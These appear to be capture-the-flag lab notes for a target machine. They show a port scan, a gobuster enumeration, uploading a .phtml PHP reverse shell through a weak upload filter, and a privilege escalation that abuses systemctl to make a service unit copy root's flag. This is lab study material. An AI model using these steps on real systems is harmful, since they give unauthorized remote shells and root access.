 <pre>
Machine IP: 10.10.231.156

Enum:
    Open ports:
        21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))

Gobuster to http://10.10.231.156:3333/

gobuster dir --url http://10.10.231.156:3333/--wordlist /root/Documents/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt


And find http://10.10.231.156:3333/internal/ with upload page
Make a php reverse with name ex .phtml and upload it

Make netcat listener
And go find reverseshell at:
http://10.10.231.156:3333/internal/uploads/

Get user flag


https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf

Priv esc:

Creds:
user : genius


$eop=$(mktemp).service
$ echo '[Service]
> ExecStart=/bin/sh -c "cat /root/root.txt > tmp/output"
> [Install]
> WantedBy=multi-user.target' > $eop

$ /bin/systemctl link --now $eop
$ /bin/systemctl enable --now $eop

Cd ./tmp and got root
</pre>
